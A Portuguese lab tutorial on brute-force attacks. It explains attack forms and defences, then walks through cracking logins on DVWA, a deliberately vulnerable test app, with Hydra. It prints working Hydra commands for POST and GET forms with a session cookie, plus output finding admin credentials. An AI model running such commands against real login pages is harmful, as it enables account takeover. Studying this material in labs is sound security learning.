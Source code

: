 # Força Bruta

Tentativa sistemática de **adivinhar credenciais ou chaves** testando muitas combinações até encontrar a correta. Não explora uma falha de software; explora **senhas fracas**, **políticas frouxas** e **ausência de controles**.

### Principais formas

* **Online brute force**: tentativas diretas no serviço (SSH, HTTP login, RDP…). É limitado por **lockout**, **rate-limit** e rede. (Ferramentas típicas: Hydra, Medusa.)
* **Offline brute force**: tenta contra **hashes** de senhas previamente obtidos (dump, vazamento). Muito mais rápido, especialmente com **GPU** (hashcat/John). O sucesso depende do algoritmo de hash e da força da senha.
* **Dictionary / Hybrid**: testa listas de senhas comuns e variações (ex.: “Empresa2025!”, “Nome123”).
* **Password spraying**: mesma senha comum em **várias contas** (evita bloquear uma única conta).
* **Credential stuffing**: reutiliza **pares usuário:senha vazados** em outros sites.

### Por que funciona

* Senhas previsíveis, curtas ou reutilizadas.
* Hashes rápidos sem proteção (ex.: SHA-1/SHA-256 puro, sem **salt** e sem fator de custo).

### Sinais e riscos

* Muitas tentativas falhas, picos de autenticação, logins de IPs/dispositivos atípicos.
* Risco de **tomada de conta**, escalada interna, fraudes e vazamento de dados.

### Defesas essenciais

1. **MFA** (TOTP/chaves FIDO2) — quebra o valor de um único segredo.
2. **Política de senha forte** + **bloqueio progressivo** / **rate limiting** / **backoff**.
3. **Detecção & resposta**: alertas por IP/ASN, device fingerprint, geolocalização, UEBA.
4. **Proteja o armazenamento**: use **bcrypt/scrypt/Argon2** com **salt único** e **custo** ajustado; nunca SHA/MD5 puro para senhas.
5. **Passkeys/WebAuthn** onde possível (elimina senha).
6. **Higiene de credenciais**: proibir senhas já vazadas (ex.: listas de “pwned passwords”).
7. **CAPTCHA** ajuda contra bots simples, mas **não substitui** MFA e rate-limit.
8. **Segregar superfícies**: limitar tentativas em interfaces expostas (VPN/SSO), proteger admin com IP allowlist.

---

## Ataque a página principal do DVWA com Hydra

Inspecionando a página...
```
<form action="login.php" method="post">	
	<fieldset>
			<label for="user">Username</label> <input type="text" class="loginInput" size="20" name="username"><br />
			<label for="pass">Password</label> <input type="password" class="loginInput" AUTOCOMPLETE="off" size="20" name="password"><br />		
			<p class="submit"><input type="submit" value="Login" name="Login"></p>
	</fieldset>
	</form>
```
...observamos que as informações são passadas por um formulário através dos campos username e password, e submetidas pelo botão Login.

O **comando padrão hydra** para o ataque **http-form-post** é:
```
$ hydra L <LISTA_DE_USERNAMES> -P <LISTA_DE_SENHAS> <IP> http-form-post "<PATH_ARCHIVE>:<CAMPO_USER>=^USER^&<CAMPO_SENHA>=^PASS^&<NOME_BOTÃO>=submit:<AVISO_DE_FALHA>" -
```
* Utilizaremos arquivos de usernames e passwords pequenos para fins de velocidade na execução do exercício.
```
$ hydra 192.168.1.33 http-form-post "/dvwa/login.php:username=^USER^&password=^PASS^&Login=submit:Login failed" -L usernames.txt -P passwords.txt

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-03 17:10:50
[DATA] max 16 tasks per 1 server, overall 16 tasks, 56 login tries (l:8/p:7), ~4 tries per task
[DATA] attacking http-post-form://192.168.1.33:80/dvwa/login.php:username=^USER^&password=^PASS^&Login=submit:Login failed
[80][http-post-form] host: 192.168.1.33   login: admin   password: password
[80][http-post-form] host: 192.168.1.33   login: Admin   password: password
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-03 17:10:55
```
O Hydra achou dois logins válidos (a partir da lista).

---

## Ataque a página /dvwa/vulnerabilities/brute/ 

Inspencionando a página...
```
	<form action="#" method="GET">
			Username:<br><input type="text" name="username"><br>
			Password:<br><input type="password" AUTOCOMPLETE="off" name="password"><br>
			<input type="submit" value="Login" name="Login">
		</form>
```
...observamos que é praticamente igual a anterior, trocando:
* O método para GET
* O aviso de erro
Contudo, executando o comando com as modificações...
```
$ hydra 192.168.1.33 http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=submit:Username and/or password incorrect." -L usernames.txt -P passwords.txt
```
... todas as tentativas retornam como sucesso, indicando que algo falta ou não está correto no comando.

Usando o Burp Suite para verificar o fluxo, observamos que existe um cookie de sessão.
```
GET /dvwa/vulnerabilities/brute/?username=ccwdcqwd&password=cwdqqw&Login=Login HTTP/1.1
Host: 192.168.1.33
Accept-Language: pt-BR,pt;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.33/dvwa/vulnerabilities/brute/
Accept-Encoding: gzip, deflate, br
Cookie: security=high; security=low; PHPSESSID=ae49c4cec2fe60067eddfe55ea9e2824
Connection: keep-alive
```
Assim, é necessário incluir o cookie de sessão no comando hydra. O **comando padrão** para o ataque **http-form-get** com **cookie** é:
```
$ hydra L <LISTA_DE_USERNAMES> -P <LISTA_DE_SENHAS> <IP> http-form-post "<PATH_ARCHIVE>:<CAMPO_USER>=^USER^&<CAMPO_SENHA>=^PASS^&<NOME_BOTÃO>=submit:H=Cookie\:PHPSESSID=<COOKIE>:<AVISO_DE_FALHA>" -
```
* **Todos os dois pontos (:) que não forem separadores de opções devem ser escapados por uma barra invertida (\)**.
 * Se você for usar dois pontos (:) nos seus cabeçalhos, use uma barra invertida (\) como escape.

Executando o comando hydra:
```
$ hydra -L usernames.txt -P passwords.txt 192.168.1.33 http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\:PHPSESSID=ae49c4cec2fe60067eddfe55ea9e2824:Username and/or password incorrect."

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-03 20:56:02
[INFORMATION] escape sequence \: detected in module option, no parameter verification is performed.
[DATA] max 16 tasks per 1 server, overall 16 tasks, 56 login tries (l:8/p:7), ~4 tries per task
[DATA] attacking http-get-form://192.168.1.33:80/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\:PHPSESSID=ae49c4cec2fe60067eddfe55ea9e2824:Username and/or password incorrect.
[80][http-get-form] host: 192.168.1.33   login: Admin   password: password
[80][http-get-form] host: 192.168.1.33   login: admin   password: password
[STATUS] 37.00 tries/min, 37 tries in 00:01h, 19 to do in 00:01h, 16 active
[STATUS] 28.00 tries/min, 56 tries in 00:02h, 1 to do in 00:01h, 15 active
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-03 20:58:47
```
O comando é executado com sucesso, como dois resultados positivos.
